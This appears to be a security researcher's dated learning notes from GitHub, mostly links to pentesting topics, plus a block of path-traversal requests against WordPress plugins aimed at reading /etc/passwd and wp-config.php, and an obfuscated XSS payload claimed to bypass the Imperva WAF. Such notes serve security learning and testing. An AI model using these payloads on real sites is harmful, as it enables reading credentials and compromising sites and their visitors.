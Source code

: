# 📅 24-Feb-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 54
- [JSON Deserialization Attacks](https://github.com/harsh-bothra/learn365/blob/main/days/day54.md)

## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 55
- [ Android App Dynamic Analysis using House](https://github.com/harsh-bothra/learn365/blob/main/days/day55.md)

## Wordpress RCE and other Vulnerability POC
```http
GET /wp-admin/admin.php?page=supsystic-backup&tab=bupLog&download=../../../../../../../../../etc/passwd
GET /index.php?page=../../../../etc/passwd
GET /index.php?page=/etc/passwd
GET /download.php?file=../../../../../../../../../../etc/passwd
GET /wp-content/force-download.php?file=..%2Fwp-config.php
GET /wp-content/plugins/BackUp/Archive.php?bkpwp_plugin_path=..%2F..%2F..%2Fwp-config.php
GET /wp-content/plugins/BackUp/Archive/Predicate.php?bkpwp_plugin_path=..%2F..%2F..%2F..%2Fwp-config.php 
GET /wp-content/plugins/BackUp/Archive/Reader.php?bkpwp_plugin_path=..%2F..%2F..%2F..%2Fwp-config.php
```

# 📅 25-Feb-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 56
- [Testing IIS Servers](https://twitter.com/harshbothra_/status/1364681793274744833?s=20)

## A solid XSS payload that bypasses Imperva WAF
```js
<a/href="j%0A%0Davascript:{var{3:s,2:h,5:a,0:v,4:n,1:e}='earltv'}[self][0][v+a+e+s](e+s+v+h+n)(/infected/.source)" />click
```
## AWS pentesting
- https://twitter.com/iamthefrogy/status/1364528706233004034?s=20

![img](https://pbs.twimg.com/media/Eu_HKLiWQAIDeq5?format=png&name=large)

## Infosec Talks
- https://securib.ee/beelog/must-watch-infosec-talks-of-2020/

## Unauthorized RCE in VMware vCenter
- https://swarm.ptsecurity.com/unauth-rce-vmware/
